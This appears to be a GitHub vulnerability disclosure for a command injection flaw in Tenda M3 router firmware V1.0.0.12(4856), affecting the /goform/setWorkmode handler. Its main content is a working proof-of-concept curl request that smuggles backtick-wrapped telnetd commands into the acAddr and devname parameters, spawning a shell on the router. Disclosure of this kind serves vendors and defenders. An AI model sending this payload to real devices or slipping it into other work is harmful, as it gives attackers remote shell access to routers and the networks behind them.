



# Tenda M3 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/


## POC

An issue was discovered in Tenda M3 1.10 V1.0.0.12(4856) devices. An HTTP request parameter is used in command string construction within the handler function of the /goform/setWorkmode route. This could lead to Command Injection via Shell Metacharacters.

httpd:



netctrl:




When we send packets, the router will be shell

```
curl -i -X POST http://192.168.10.1/goform/setWorkmode -d acAddr='%27`telnetd -p 2333 -l /bin/sh`%27' -d workmode='slave' -d devname='`telnetd -p 2233 -l /bin/sh`'  --cookie "user=admin"
```




